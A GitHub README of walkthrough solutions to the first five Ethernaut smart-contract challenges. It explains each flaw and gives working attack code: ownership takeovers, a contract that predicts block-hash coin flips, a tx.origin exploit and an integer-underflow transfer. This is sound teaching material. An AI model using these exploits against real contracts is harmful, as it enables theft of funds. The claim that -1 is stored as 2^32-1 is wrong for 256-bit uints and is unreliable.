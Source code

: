 # Ethernaut Solutions by aki

## Usage

This repo uses Hardhat and ethers.js stack to interact with the Ethernaut contracts. The solutions below, however, endeavor to use the console to execute any required scripts, and therefore use web3 as it is injected into the Ethernaut console. If you fork this repo, be sure to include a `.env` file that follows the same format as the given `.env.example` file.

A couple of npm scripts make it easy to run the code yourself:
1. `npm run solve --level=X` solves the corresponding level, deploying contracts if necessary.
2. `npm run deploy --level=X` only deploys the corresponding contract to the Rinkeby testnet, if it exists. 

## Solutions

### 1. Fallback
A fallback function is called when a contract receives ETH in a transaction that is not handled by any of its methods. This contract's fallback function has a vulnerability that allows us to gain control of the contract and therefore call its `withdraw` method.
```typescript
await contract.contribute({ value: 1 });
await contract.send({ value: 1 }); // Trigger fallback
await contract.withdraw();
```

### 2. Fallout
Before Solidity v0.4.23, constructors were denoted using a function name that was the same as the contract's name. Constructors are only ever called once, during contract creation, but in the case that the constructor's name does not match the contract, it is possible to call it repeatedly as a normal function. The constructor in this level has a typo that allows us to call it and gain control of the contract.
```typescript
await contract.Fal1out();
await contract.collectAllocations();
```

### 3. Coin Flip
This contract attempts to create its own source of randomness by performing some operations on the block number of the block that the `flip` method is mined into. Because the blcok number and these operations are all public, we can create a contract that uses the same calculations to compute the result of the flip before calling original `flip` method.
```solidity
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract Level3 {
  using SafeMath for uint256;

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip cf = CoinFlip(INSTANCE_ADDRESS);

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    cf.flip(blockValue.div(FACTOR) == 1);
  }
}

abstract contract CoinFlip {
  function flip(bool _guess) virtual public returns (bool);
}
```

We can pair the contract with a simple script that calls our `attack` method the requisite amount of times, ensuring each subsequent call happens only after the previous has been mined. We cannot simply do this in the `Level3` contract above as the block number must be different between flips as enforced in the original CoinFlip contract. Using Metamask as our provider is annoying here because we must provide manual confirmation for each transaction, so we will use ethers locally:
```typescript
const contract = await ethers.getContractAt(
  'Level3', 
  LEVEL3_CONTRACT_ADDR, 
  (await ethers.getSigners())[0]
);

for (let i = 0; i < 10; i++) {
  await (await contract.attack()).wait();
}
```

### 4. Telephone
`tx.origin` and `msg.sender` are different in a call chain. `tx.origin` always corresponds to the user (EOA) that starts the call chain, whereas `msg.sender` corresponds the caller of the current method/contract (and can thus be an EOA or a contract). For example, if user A calls contract B which calls contract C, within the method call to C, `msg.sender` refers to B while `tx.origin` refers to A. We can use this to our advantage by creating a contract that calls the `Telephone` contract's `changeOwner` method. 
```solidity
pragma solidity ^0.8.0;

contract Level4 {
  Telephone t = Telephone(INSTANCE_ADDRESS);

  function attack() public {
    t.changeOwner(msg.sender);
  }
}

abstract contract Telephone {
  function changeOwner(address _owner) virtual public;
}
```

We simply call our `attack` method to gain control of the `Telephone` contract.
```typescript
await sendTransaction({
  to: LEVEL4_CONTRACT_ADDRESS,
  from: WALLET_ADDRESS,
  data: web3.eth.abi.encodeFunctionSignature('attack()'),
});
```

### 5. Token
The `uint` type in Solidity is an unsigned integer and can never be negative. Negative numbers are represented with two's complement, so -1 is stored as 2^32-1. We can exploit this by transferring more tokens than we have to another address, so that our balance is negative and wraps around to a large positive number.
```typescript
await contract.transfer('0x0000000000000000000000000000000000000000', 50);
```
